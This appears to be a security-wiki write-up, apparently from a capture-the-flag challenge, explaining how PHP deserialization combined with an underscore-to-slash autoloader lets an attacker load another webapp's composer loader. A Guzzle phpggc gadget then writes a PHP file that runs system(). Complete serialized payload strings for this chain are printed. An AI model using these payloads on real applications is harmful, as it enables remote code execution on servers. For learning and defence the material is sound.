 # PHP - Deserialization + Autoload Classes


First, you should check what are [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserialization + spl\_autoload\_register + LFI/Gadget

We are in a situation where we found a **PHP deserialization in a webapp** with **no** library vulnerable to gadgets inside **`phpggc`**. However, in the same container there was a **different composer webapp with vulnerable libraries**. Therefore, the goal was to **load the composer loader of the other webapp** and abuse it to **load a gadget that will exploit that library with a gadget** from the webapp vulnerable to deserialization.

Steps:

* You have found a **deserialization** and there **isn’t any gadget** in the current app code
* You can abuse a **`spl_autoload_register`** function like the following to **load any local file with `.php` extension**
  * For that you use a deserialization where the name of the class is going to be inside **`$name`**. You **cannot use "/" or "."** in a class name in a serialized object, but the **code** is **replacing** the **underscores** ("\_") **for slashes** ("/"). So a class name such as `tmp_passwd` will be transformed into `/tmp/passwd.php` and the code will try to load it.\
    A **gadget example** will be: **`O:10:"tmp_passwd":0:{}`**

```php
spl_autoload_register(function ($name) {

   if (preg_match('/Controller$/', $name)) {
       $name = "controllers/${name}";
   } elseif (preg_match('/Model$/', $name)) {
       $name = "models/${name}";
   } elseif (preg_match('/_/', $name)) {
       $name = preg_replace('/_/', '/', $name);
   }

   $filename = "/${name}.php";

   if (file_exists($filename)) {
       require $filename;
   }
   elseif (file_exists(__DIR__ . $filename)) {
       require __DIR__ . $filename;
   }
});
```

{% hint style="success" %}
If you have a **file upload** and can upload a file with **`.php` extension** you could **abuse this functionality directly** and get already RCE.
{% endhint %}

In my case, I didn’t have anything like that, but there was inside the **same container** another composer web page with a **library vulnerable to a `phpggc` gadget**.

* To load this other library, first you need to **load the composer loader of that other web app** (because the one of the current application won’t access the libraries of the other one.) **Knowing the path of the application**, you can achieve this very easily with: **`O:28:"www_frontend_vendor_autoload":0:{}`** (In my case, the composer loader was in `/www/frontend/vendor/autoload.php`)
* Now, you can **load** the others **app composer loader**, so it’s time to **`generate the phpgcc`** **payload** to use. In my case, I used **`Guzzle/FW1`**, which allowed me to **write any file inside the filesystem**.
  * NOTE: The **generated gadget was not working**, in order for it to work I **modified** that payload **`chain.php`** of phpggc and set **all the attribute**s of the classes **from private to public**. If not, after deserializing the string, the attributes of the created objects didn’t have any values.
* Now we have the way to **load the others app composer loader** and have a **phpggc payload that works**, but we need to **do this in the SAME REQUEST for the loader to be loaded when the gadget is used**. For that, I sent a serialized array with both objects like:
  * You can see **first the loader being loaded and then the payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Now, we can **create and write a file**, however, the user **couldn’t write in any folder inside the web server**. So, as you can see in the payload, PHP calling **`system`** with some **base64** is created in **`/tmp/a.php`**. Then, we can **reuse the first type of payload** that we used to as LFI to load the composer loader of the other webapp t**o load the generated `/tmp/a.php`** file. Just add it to the deserialization gadget:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Summary of the payload**

* **Load the composer autoload** of a different webapp in the same container
* **Load a phpggc gadget** to abuse a library from the other webapp (the initial webapp vulnerable to deserialization didn’t have any gadget on its libraries)
* The gadget will **create a file with a PHP payload** on it in /tmp/a.php with malicious commands (the webapp user cannot write in any folder of any webapp)
* The final part of our payload will use **load the generated php file** that will execute commands

I needed to **call this deserialization twice**. In my testing, the first time the `/tmp/a.php` file was created but not loaded, and the second time it was correctly loaded.

